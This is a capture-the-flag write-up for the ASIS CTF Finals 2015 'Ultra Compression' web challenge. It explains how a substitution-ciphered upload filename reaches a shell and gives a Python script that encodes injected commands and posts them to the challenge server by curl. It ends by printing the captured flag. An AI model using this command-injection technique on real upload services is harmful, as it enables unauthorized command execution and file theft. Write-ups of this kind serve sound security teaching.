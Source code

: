 ```yaml
---
title: ASIS CTF Finals 2015 - Ultra Compression (Web 125)
homedisplay: featimg
author: quanyang
description: ASIS CTF Finals 2015 Web 125. Ultra Compression Service.
tags: [CTF, WEB, ASIS, INJECTION]
category: [CTF, WEB, INJECTION]
--- 
```


# ultra compression
**Points:**125
**Category:** Web
Go [there](http://ucs.asis-ctf.ir/) and find the flag.

---

Here we are told to go to a webpage to find the flag. Going to the webpage shows an ultra compression service with the ability to upload files.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/service.png){: height="auto" width="600px"}

First thing to do is to upload a legitimate file!
I chose a random image file on my machine to upload.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/upload.png){: height="300px" width="auto"}

By viewing all embeded javascript, we can tell that the file is sent using ajax to the uploader php script.

`$(document).ready(function (e) {
$("#upload").on('submit',(function(e) {
e.preventDefault();
$("#message").empty();
$('#loading').show(1000);
$.ajax({
url: "ajax_php_file.php", // Url to which the request is send
type: "POST",             // Type of request to be send, called as method
data: new FormData(this), // Data sent to server, a set of key/value pairs (i.e. form fields and values)
contentType: false,       // The content type used when sending data to the server.
cache: false,             // To unable request pages to be cached
processData:false,        // To send DOMDocument or non processed data file it is set to false
success: function(data)   // A function to be called if request succeeds
{
	$('#loading').hide();
	$("#message").hide(1000);
	$("#message").show(500);
	$("#message").html(data);
}
});
}));`

Using the Chrome browser's developer tool, we can inspect the response of the ajax call.

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/crypt.png){: height="300px" width="auto"}

As you can see, the filename
`Screen Shot 2015-10-11 at 00.40.02.png`
gets encrypted to
`ow.nnm oOsV G1ig-i1-ii cV 11Jh1J1GJ5my`

Following this finding, we can attempt to map every possible plaintext to their corresponding ciphertext, this gives us the mapping of:

`crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"`

Attempting to insert a semi-colon into the filename shows that the field was injectable.
![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/injection.png){: height="200px" width="auto"}

Using a python script to automatically map payload back to their corresponding plaintext, we can then inject commands to the website.

{% highlight python linenos=table %}
import subprocess,sys

crypt = "YLyA83tfONHDInmSc7JCb64PBxQaZTRu.viMWj9lhzgwGdeqEV25Kos1Fkp0/Xr"
plain = ".0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

mapping = dict()

for x,p in enumerate(plain):
	mapping[crypt[x]] = p

inject = sys.argv[1]

out = ""

for x in inject:
	if x in mapping:
		out = out + mapping[x]
	else:
		out = out + x

print out

cmd = "curl 'http://ucs.asis-ctf.ir/ajax_php_file.php' -H 'Pragma: no-cache' -H 'Origin: http://ucs.asis-ctf.ir' -H 
'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-GB,en;q=0.8,en-US;q=0.6,id;q=0.4' 
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36' 
-H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryes1iD3vHWDOD2gkZ' -H 'Accept: */*' -H 'Cache-Control: no-cache' 
-H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: PHPSESSID=' -H 'Connection: keep-alive' 
-H 'Referer: http://ucs.asis-ctf.ir/' -H 'DNT: 1' --data-binary $'------WebKitFormBoundaryes1iD3vHWDOD2gkZ\r\nContent-Disposition: form-data; name=\"file\"; 
filename=\""+out+"\"\r\nContent-Type: image/png\r\n\r\n\r\n------WebKitFormBoundaryes1iD3vHWDOD2gkZ--\r\n' --compressed"

p = subprocess.Popen(cmd,shell=True,stdout=subprocess.PIPE)

out = p.communicate()
print out
{% endhighlight %}

Traversing to /home/asis/, we can then do a ls to see that the flag.txt is kept there. Finally, using a cat command, we can obtain the flag!

![]({{site.url|append: site.baseurl}}/img/res/asis/ucs/flag.png){: height="200px" width="auto"}

And we have our flag: **ASIS{72a126946e40f67a04d926dd4786ff15}**